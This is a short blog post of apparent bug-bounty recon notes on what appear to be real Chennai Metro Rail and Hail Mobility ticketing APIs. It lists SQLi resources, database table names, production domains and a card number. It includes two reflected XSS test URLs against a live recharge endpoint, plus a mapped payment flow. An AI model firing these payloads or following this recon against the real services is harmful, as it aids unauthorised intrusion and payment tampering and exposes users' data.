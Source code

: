 ```yaml
---
layout: post
title: Bug Bounty Resources
image: /assets/malware.jpg
tags: sqli
---
```


This post contains resources for bug bounty.

## SQLI

[Blind SQLI](https://youtu.be/uN8Tv1exPMk)
[Blind SQLI Manual + sqlmap](https://youtu.be/TjRK3aVEC60)

t_payment_details

account take over
sqlmap
LFI
SQLI

## Tables

`t_tc_cardtransaction` -> Card transaction table
`t_tc_registration` -> User table

## Domains

`apiprod.chennaimetrorail.org`
`rechargeapi.chennaimetrorail.org`
`mticket-api.hailmobility.in`  -> QR code stored here,  main payment here, uses JWT + JWE token to verify user
`mmjp-api.hailmobility.in`
`ticketsapi.chennaimetrorail.org`

CardNo: 1100095658

check tickets api what it does, if hail mobility is independant wtf is CMRL used for?

## XXS

```
http://rechargeapi.chennaimetrorail.org/api/ValidateCard/Getdetails?CMRLsurfacenumber=<h1>hi</h1>
```

```
https://rechargeapi.chennaimetrorail.org/api/ValidateCard/Getdetails?CMRLsurfacenumber=%3Cscript%3Ealert(document.domain)%3C/script%3E
```

## QR Procedure

```
https://mticket-api.hailmobility.in/bookingengine/api/v1/booking/initiate


https://pgi.billdesk.com/pgidsk/PGIMerchantPayment



AFter pay

https://mticket-api.hailmobility.in/paymentengine/api/v1/payment/billdesk/update-transaction/
https://mticket-api.hailmobility.in/bookingengine/api/v1/booking/redirectonbooking?orderId=9795370&status=FAILURE&type=ticket&oldOrderId=
```